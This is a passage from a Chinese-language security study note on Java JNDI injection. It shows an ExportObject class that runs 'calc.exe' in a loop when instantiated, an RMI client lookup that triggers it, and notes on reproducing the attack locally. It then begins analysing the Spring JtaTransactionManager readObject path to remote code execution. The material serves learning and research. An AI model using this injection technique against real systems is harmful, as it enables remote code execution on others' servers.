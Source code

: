 ```
public class ExportObject {
    public ExportObject() {
        try {
            while(true) {
                System.out.println("running injected code...");
                Runtime.getRuntime().exec("calc.exe");
                Thread.sleep( 1000 );
            }
        } catch(Exception e) {
            e.printStackTrace();
        }
    }
}
```

### Client端

```
import javax.naming.Context;
import javax.naming.InitialContext;

public class ClientTest {

    public static void main(String[] args) throws Exception {
		//从绑定的目录中读取到类
        String uri = "rmi://127.0.0.1:1099/object";
        Context ctx = new InitialContext();
        ctx.lookup(uri);
    }
}
```

上述代码我们创建了一个HTTP服务之后，有创建了一个RMI服务，并且RMI提供了对`ExportObject`类的查询操作。`ExportObject`类的功能就是简单的弹出计算器。

先运行Server端，然后运行Client端，就可以实现复现。之前按照别人的做了好多遍都没有复现成功，原来是在同一个Java虚拟机中开启的Server端和Client端。。。放到两个项目里就没问题了。。。

其次要注意一下线程要sleep一下，不然的话会弹计算器弹的什么都干不了。。。。。日常感觉自己蠢哭系列

![1558080313043](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1558080313043.png)



## Spring RCE

> Spring RCE形成的主要原因是Spring框架的`spring-tx-xxx.jar`中的`org.springframework.transaction.jta.JtaTransactionManager` 存在一个`readObject`方法。当执行对象反序列化的时候，会执行`lookup`操作，导致了JNDI注入，可以导致远程代码执行问题。

首先是看一下`org.springframework.transaction.jta.JtaTransactionManager`这个类里边的源码，发现有readObject的方法重写。

![1558081125247](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1558081125247.png)

进一步跟进`initUserTransactionAndTransactionManager()`方法，主要功能为使用JNDI的方法，来查找`this.userTransactionName` 对应的事务，然后调用了`this.lookupUserTransaction(this.userTransactionName)` 。
